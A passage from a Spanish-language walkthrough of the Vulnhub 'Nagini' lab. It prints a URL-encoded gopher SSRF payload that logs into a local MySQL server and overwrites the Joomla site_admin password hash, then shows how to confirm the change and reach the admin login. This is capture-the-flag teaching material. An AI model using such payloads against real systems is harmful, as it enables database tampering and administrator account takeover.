 ```bash
                                                                                                                                                                                                                 
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%6d%00%00%00%03%75%73%65%20%6a%6f%6f%6d%6c%61%3b%20%75%70%64%61%74%65%20%6a%6f%6f%6d%6c%61%5f%75%73%65%72%73%20%73%65%74%20%70%61%73%73%77%6f%72%64%3d%27%37%37%39%64%38%36%31%66%65%62%61%39%66%38%30%62%39%37%34%38%33%37%62%31%33%35%66%31%38%33%66%61%27%20%77%68%65%72%65%20%75%73%65%72%6e%61%6d%65%3d%27%73%69%74%65%5f%61%64%6d%69%6e%27%3b%01%00%00%00%01
```

Súbela y revisa bien que tengas el mensaje de cambio en la tabla:

<p align="center">
<img src="/assets/images/vulnhub-writeup-nagini/Captura17.png">
</p>

Parece que sí se cambió.

Vamos a comprobarlo, entrando al login del administrador en la ruta `joomla/administrator` que ya habíamos encontrado con **wfuzz y joomscan**:

<p align="center">
<img src="/assets/images/vulnhub-writeup-nagini/Captura18.png">
</p>
